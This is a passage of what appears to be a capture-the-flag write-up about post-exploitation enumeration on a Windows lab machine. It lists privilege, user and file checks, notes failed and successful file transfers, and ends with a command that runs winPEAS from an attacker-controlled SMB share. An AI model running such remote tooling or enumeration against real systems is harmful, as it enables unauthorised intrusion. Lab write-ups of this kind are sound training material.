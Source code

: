 ```sh
# check privs
whoami /all
# not admin, no special privileges

systeminfo
# access denied error???? Never seen that before

# look at installed programs
cd \
dir /b PROGRA~1 PROGRA~2
# MySQL
# Oracle

# check users
cd \users
dir
# wayne
# tyler
# new
# newsite

# check interesting files in tyler's directory
cd \users\tyler
dir /s/b desktop documents downloads onedrive pictures secnotes_contacts
# C:\Users\tyler\desktop\bash.lnk
# C:\Users\tyler\desktop\Command Prompt.lnk
# C:\Users\tyler\desktop\File Explorer.lnk
# C:\Users\tyler\desktop\Microsoft Edge.lnk
# C:\Users\tyler\desktop\Notepad++.lnk
# C:\Users\tyler\desktop\user.txt
# C:\Users\tyler\desktop\Windows PowerShell.lnk
# C:\Users\tyler\pictures\Camera Roll
# C:\Users\tyler\pictures\Saved Pictures
# C:\Users\tyler\secnotes_contacts\check-messages-orig.ps1
# C:\Users\tyler\secnotes_contacts\check-messages.ps1
```

Some interesting stuff there:

- link to bash on desktop? never seen that before
- check-messages.ps1 script

Every time I try grabbing files, the transfer hangs!

- FTP upload - times out
- HTTP upload - no data xfered
- SMB - SUCCESS

But I'm still running into issues running things like:

```
\\10.10.14.10\share\winPEASany.exe
```
